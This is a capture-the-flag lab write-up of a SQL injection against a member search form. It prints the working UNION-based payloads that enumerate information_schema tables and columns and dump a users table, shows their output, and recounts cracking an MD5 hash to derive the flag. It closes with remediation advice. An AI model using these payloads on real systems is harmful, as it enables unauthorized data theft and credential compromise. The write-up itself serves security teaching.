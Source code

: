 
## 📌 Breach Name: **Error-Based SQL Injection**

---

## 📌 Vulnerability Type:
- **CWE-89: SQL Injection**
- **CWE-20: Improper Input Validation**

![alt text](https://cwe.mitre.org/data/images/CWE-89-Diagram.png)
---



## 📖 Exploitation Process:

1. **Initial Vulnerability Detection:**
   - Discovered a search form for member information
   - Tested basic SQL injection with boolean-based payload: `1 or 1=1`
   - Application returned all users, confirming SQL injection vulnerability:
     ```
     ID: 1 or 1=1  
     First name: one
     Surname: me

     ID: 1 or 1=1  
     First name: two
     Surname: me

     ID: 1 or 1=1  
     First name: three
     Surname: me

     ID: 1 or 1=1  
     First name: Flag
     Surname: GetThe
     ```

 

2. **List database tables:**

         The SQL UNION operator is used to combine the result sets of two or more SELECT queries into a 
         single result set. It is a powerful tool in SQL that helps aggregate data from multiple tables, 
         especially when the tables have similar structures.
   - Used UNION-based injection to list database tables:
     ```sql
     1 UNION SELECT table_name, null FROM information_schema.tables
     ```
   - Results revealed several tables, including `users` table:
     ```
     ID: 1 UNION SELECT table_name, null FROM information_schema.tables 
     First name: db_default
     Surname: 

     ID: 1 UNION SELECT table_name, null FROM information_schema.tables 
     First name: users
     Surname: 
     ```

3. **List "users" Columns :**
   - Extracted column names from the `users` table:
     ```sql
     1 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 0x7573657273--
     ```
   - Results revealed column structure including potentially sensitive fields:
     ```
     First name: user_id
     Surname: 
     
     First name: first_name
     Surname: 
     
     First name: last_name
     Surname: 
     
     First name: town
     Surname: 
     
     First name: country
     Surname: 
     
     First name: planet
     Surname: 
     
     First name: Commentaire
     Surname: 
     
     First name: countersign
     Surname: 
     ```



4. **Additional Information Discovery:**
   - Extracted data from the `Commentaire,countersign` column:
   ```sql
    1 union select Commentaire,countersign from users
     ```
   - Found critical instruction for the final step:
     ```
      ID: 1 union select Commentaire,countersign from users 
      First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
      Surname : 5ff9d0165b4f92b14994e5c685cdce28

     ```



5. **Flag Decryption:**
   - Decrypted the hash `5ff9d0165b4f92b14994e5c685cdce28` to obtain the plaintext: `FortyTwo`
   - Followed instructions: converted to lowercase and applied SHA256 to obtain the final flag

6. **The member search functionality was vulnerable to SQL injection attacks because it used a non-parameterized query structure:**
    ```sql
    SELECT  first_name, last_name 
    FROM users 
    WHERE user_id = [user input]
---



### 🔴 Critical Security Impacts:

- **Complete Data Exposure**: All user information including personal details and password hashes were accessible to attackers
  
- **Authentication Compromise**: MD5 password hashes were successfully extracted and cracked (e.g., "FortyTwo")
  
- **Database Structure Revealed**: Full enumeration of database tables and columns, providing attackers with comprehensive system knowledge
  
---
## 📌 Security Recommendations:

1. **Implement Parameterized Queries:**
   - Use prepared statements with bound parameters
   - Avoid dynamic SQL construction with user input
   - Apply ORM frameworks that handle SQL escaping automatically

2. **Input Validation:**
   - Implement strict input validation for all user-supplied data
   - Apply whitelisting for expected input patterns
   - Reject requests with suspicious SQL characters or keywords

3. **Least Privilege Principle:**
   - Restrict access to system tables like information_schema

4. **Database Hardening:**
   - Encrypt sensitive data stored in the database
   - Use strong hashing algorithms with proper salting for passwords
   - Avoid storing sensitive data in plaintext or with weak encryption



